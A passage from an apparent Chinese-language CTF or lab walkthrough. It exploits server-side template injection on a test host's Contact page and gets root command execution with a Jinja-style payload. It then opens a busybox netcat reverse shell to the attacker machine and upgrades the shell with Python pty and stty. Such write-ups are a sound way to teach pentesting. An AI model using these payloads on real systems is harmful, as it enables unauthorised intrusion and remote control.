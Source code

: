 ```shell
< Location: http://shieldweb.che/
<
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
* Connection #0 to host 192.168.31.116 left intact
└─# cat /etc/hosts | grep .che
192.168.31.116  shieldweb.che ticket.shieldweb.che
```

### 3.获得`docker`权限

测试`Contact`页面存在`SSTI`模板注入

![image-20250809101436919](https://gitee.com/shui666/images/raw/master/images/image-20250809101436919.png)

去`github`找个现成方案测试`PayloadsAllTheThings
/Server Side Template Injection/Python.md`

```shell
#https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
Thank you for your message, uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) !
#注意，没得bash，用ash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('busybox nc 192.168.31.126 1234 -e /bin/ash').read() }}
└─# nc -lvp 1234
listening on [any] 1234 ...
id
connect to [192.168.31.126] from ticket.shieldweb.che [192.168.31.116] 52914
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

美化一下终端，受限于`doker`环境，这里使用`Python`的`pty`模块生成一个伪终端，而不能直接用系统自带的工具`script`升级终端

```shell
#1.把反弹shell变成交互式，在接受回弹的nc -lvp 4444终端上执行
python -c 'import pty; pty.spawn("/bin/ash")'
先ctrl + Z 中断再输入
#2.交互式shell变成支持回退字符的shell（支持控制字符）
stty raw -echo;fg
#reset，这一条弄了当前终端只能强制关闭
#xterm#根据默认xterm查询，命令echo  $SHELL、echo  $TERM
3.终端vi可全屏编辑，解决输入问题
stty -a#查询当前尺寸
stty rows 24 columns 120#根据上面查询结果，设置为当前窗口大小
```
